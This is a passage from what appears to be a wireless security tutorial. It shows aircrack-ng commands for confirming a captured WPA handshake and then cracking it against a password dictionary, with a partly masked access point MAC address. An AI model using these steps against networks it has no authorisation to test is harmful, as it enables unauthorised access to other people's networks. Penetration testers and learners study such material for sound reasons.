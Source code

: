 To confirm we indeed have a captured handshake we can issue the following aircrack-ng command:

```nohighlight
aircrack-ng WPAcrack-01.cap
```

![Verify Handshake](/images/WiFi/confirminghandshake.png)

**Cracking the handshake**

Once we have captured a handshake we can then move onto cracking our handshake using the Aircrack-ng suite:

```nohighlight
sudo aircrack-ng  -b 4C:**:**:**:**:FA WPAcrack-01.cap  -w '/home/host/Tools/SecLists/Passwords/darkc0de.txt'
```

'-w' The name of the dictionary file
'-b' The MAC address of the access point

![Cracking](/images/WiFi/aircrack-crack.png)
